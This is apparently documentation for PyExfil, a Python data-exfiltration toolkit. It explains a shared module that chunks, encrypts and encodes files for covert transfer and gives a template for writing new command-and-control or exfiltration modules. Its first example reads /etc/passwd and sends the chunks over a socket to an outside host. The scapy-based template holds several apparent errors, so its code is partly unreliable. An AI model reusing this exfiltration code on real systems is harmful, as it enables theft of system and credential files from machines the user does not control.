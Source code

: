 # Documentation | PyExfil

## Shared Abilities
Please notice that although we have tried to keep this a collection of relatively separated stand alone modules so that converting them to static binaries for various operating systems would be as easy as possible, some things we have decided to turn into modules that would be shared across the board while attempting to keep is as depency free as possible. Such a component for now is `pyexfil/includes/prepare`. This module contains the methods of converting files (compressing, encrypting, encoding and splitting) into chunks ready to be sent or decoded.

You can use it in the following way:

```python
import socket
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

proc = PrepFile('/etc/passwd', kind='binary') # will yield a dictionary

# Send the data over
sock = socket.socket()
sock.connect(('google.com', 443))
for i in proc['Packets']:
    sock.send(i)
sock.close()

# Rebuilding the data:
conjoint = []
for packet in proc['Packets']:
    b = DecodePacket(packet)
    conjoint.append(b)

# Verify and rebuild the file:
print(RebuildFile(conjoint))
```

## Calling Convention
In theory we wish each module to have a convention call to make it easier to work with. Some methods make it easier while some make it more difficult. For that, here is a template on how we wish for it to be. Please bear in mind some modules will not fall into place. Use your best judgment.

1. Preparing file/data for exfiltration should be done as in [this section]("#shared-abilities").
2. Place the package folder under the right location. For example; short communication (C&C) under `Comm`, exfiltration over network communication under `network` etc.
3. Create an `__init__.py` under that folder.
4. For broadcasting purposes use the function name `Send` that will wrap everything up.
5. For receiving purposes use `Broker` function to contain the function. If possible, set it up in a threading mode as to return back.
6. * if possible add a call back function for when data arrives.

Here's an `__ini__.py` example file:

```python
from scapy.all import *
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

def _send_packet(host, port, data, counter):
  open('/dev/null', 'w').write("%s%s" % (data, counter))

def _testCallBack(pkt):
  print("Me got a pkt! [%s]" % len(pkt))

def Send(fname, password, host, port):
  proc = PrepFile(fname, kind='binary', enc_key=password, max_size=1024)
  i = 0
  for p in proc['Packets']:
    _send_packet(host, port, p, i)
    i += 1
  return True

class Broker():
  def __init__(self, key, retFunc=_testCallBack):
    self.key = key
    self.callBack = retFunc

  def _parse(self, pkt):
    if pkt is 'A Good Boy':
      self.callBack(pkt)
    else:
      """ These are not the packets you're looking for """
      pass

  def Listen(self):
    while True:
      sniff(ptn=self._parse, filter='stam', store=0, count=0)
```

There are also a few "ready made functions" that we found useful on several scenarios that can be found in the `general.py`, `image_manipulation.py` and `encryption_wrappers.py`. Have a look at them before reimplementing some of these.